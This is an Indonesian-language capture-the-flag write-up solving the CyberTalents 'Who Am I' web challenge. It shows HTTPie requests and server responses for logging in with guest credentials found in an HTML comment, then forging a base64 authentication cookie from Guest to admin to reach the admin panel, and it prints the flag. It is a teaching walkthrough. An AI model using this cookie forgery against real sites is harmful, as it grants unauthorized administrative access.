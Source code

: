 ## [Writeup] Cyber Talents: Who Am I


Tutorial kali ini akan membahas solusi untuk soal latihan [Cyber Talents: Who Am I](https://cybertalents.com/challenges/web/who-am-i) yang merupakan soal kategori web security. Berikut ini adalah penjelasan untuk soal tersebut:

```
Do not Start a fight you can not stop it
```

Adapun soal tersebut dapat diakses pada [tautan ini](http://34.76.107.218/whoami/). Untuk mengerjakan soal ini, kita akan menggunakan [HTTPie](https://httpie.org/), namun Anda juga dapat menggunakan aplikasi lainnya sesuai keinginan. Langsung saja, kita akan mengirimkan _request_ ke halaman soal tersebut:

```bash
% http "http://34.76.107.218/whoami/"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=UTF-8
Date: Mon, 27 Jul 2020 04:41:04 GMT
Server: nginx/1.10.3 (Ubuntu)
Transfer-Encoding: chunked

<html>
<title>Administrator Panel</title>

<CENTER>
<html>
<title>Administrator Panel</title>
<link href="http://fonts.googleapis.com/css?family=Patua+One" rel="stylesheet" type="text/css">
<font face="Patua One">
    <br><br><br>
        <font face="Patua One"><p style="font-size:25px">Please Enter Your Username and Password !!</p></font>
                <CENTER>
    <form method="POST">
            <fieldset style="width:400px;border: 2px solid #486f9a;border-radius: 5px;padding: 10px;">
                <label for="user">Username:</label>
                <input type="Text" name="user" id="user" autocomplete="off"><br><br>
                <label for="user">Password:</label>
                <input type="Password" name="pass" id="pass" autocomplete="off"><br><br>
                <input type="submit" value="Submit">
            </fieldset><br><br>
        </form>

                <!--
                        Guest Account:
                        -=-=-=-=-=-=-=-
                        Username:Guest
                        Password:Guest
                -->
```

Bisa terlihat bahwa pada kode sumber halaman tersebut terdapat **Username** dan **Password** yang keduanya adalah **Guest**. Selanjutnya, kita akan menggunakan username dan password tersebut pada _request_ ke halaman yang sama:

```bash
% http -f "http://34.76.107.218/whoami/" "user=Guest" "pass=Guest"
HTTP/1.1 302 Found
Connection: keep-alive
Content-Type: text/html; charset=UTF-8
Date: Mon, 27 Jul 2020 04:53:44 GMT
Location: admin.php
Server: nginx/1.10.3 (Ubuntu)
Set-Cookie: Authentication=bG9naW49R3Vlc3Q%3D
Transfer-Encoding: chunked

<html>
<title>Administrator Panel</title>

<CENTER>
<html>
<title>Administrator Panel</title>
<link href="http://fonts.googleapis.com/css?family=Patua+One" rel="stylesheet" type="text/css">
<font face="Patua One">
    <br><br><br>
        <font face="Patua One"><p style="font-size:25px">Please Enter Your Username and Password !!</p></font>
                <CENTER>
    <form method="POST">
            <fieldset style="width:400px;border: 2px solid #486f9a;border-radius: 5px;padding: 10px;">
                <label for="user">Username:</label>
                <input type="Text" name="user" id="user" autocomplete="off"><br><br>
                <label for="user">Password:</label>
                <input type="Password" name="pass" id="pass" autocomplete="off"><br><br>
                <input type="submit" value="Submit">
            </fieldset><br><br>
        </form>

                <!--
                        Guest Account:
                        -=-=-=-=-=-=-=-
                        Username:Guest
                        Password:Guest
                -->
```

Perhatikan _header_ yang diberikan oleh server pada _request_ di atas:

```bash
Location: admin.php
Set-Cookie: Authentication=bG9naW49R3Vlc3Q%3D
```

Bisa terlihat, bahwa server tersebut akan mengarahkan kita ke halaman **admin.php** dan memberikan _cookie_ dalam format Base64. Jika kita decode _cookie_ tersebut, maka hasilnya seperti ini:

```bash
% echo -n "bG9naW49R3Vlc3Q=" | base64 -d
login=Guest
```

Coba kita ubah _cookie_ login tersebut dari **Guest** menjadi **admin**:

```bash
% echo -n "login=admin" | base64
bG9naW49YWRtaW4=
```

Selanjutnya adalah mengirimkan _request_ menggunakan _cookie_ yang telah dimodifikasi tersebut:

```bash
% http -f "http://34.76.107.218/whoami/admin.php" "Cookie:Authentication=bG9naW49YWRtaW4="
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=UTF-8
Date: Mon, 27 Jul 2020 04:56:45 GMT
Server: nginx/1.10.3 (Ubuntu)
Transfer-Encoding: chunked

<html>
<title>Administrator Panel</title>

<link href="http://fonts.googleapis.com/css?family=Patua+One" rel="stylesheet" type="text/css">
<font face="Patua One">
    <br>
        <font face="Patua One"><p style="font-size:25px">&emsp;&emsp;&emsp;&emsp;&emsp;Welcome, Administrator !</p></font>
                <CENTER>
   <br><br><font face="tahoma" color="red">Congratulation.</font> <font face="tahoma">Your Flag iS : </font><br>


   <p style="font-size:20px">FLag{B@D_4uTh1Nt1C4Ti0n}</p>
```

Ternyata berhasil, dan flagnya adalah `FLag{B@D_4uTh1Nt1C4Ti0n}`. Sekian tutorial singkat kali ini, semoga bermanfaat. Terima kasih kepada Allah SWT, dan Anda yang telah membaca tutorial ini.
